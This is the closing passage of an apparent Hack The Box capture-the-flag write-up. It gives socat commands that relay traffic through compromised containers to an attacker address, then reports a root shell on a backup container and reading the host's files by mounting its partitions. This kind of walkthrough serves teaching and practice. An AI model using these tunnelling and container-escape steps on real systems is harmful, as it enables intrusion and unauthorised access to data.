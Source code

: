 Now we cat set up the tunnels.

_On `www`, use the following command_

```
$ /tmp/socat tcp-listen:5555,fork tcp:172.20.0.3:5555 &
```

_On `nodered`, use the following command_

```
# socat tcp-listen:5555,fork tcp:10.10.13.52:5555 &
```

Now, let's copy the files over.


{% include image.html image_alt="9ca34772.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/9ca34772.png" %}


A minute later, you'll receive a `root` shell on `backup`.


{% include image.html image_alt="1c0006c2.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/1c0006c2.png" %}


### Flags

The `backup` container as the name suggests, stores the data on the host. Because of that, we can `mount` the host's partitions within the container. And since we are `root` on this container, we can read any files from the `mount`ed volumes.


{% include image.html image_alt="99ec97fa.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/99ec97fa.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/147
[2]: https://www.hackthebox.eu/home/users/profile/12438
[3]: https://www.hackthebox.eu/
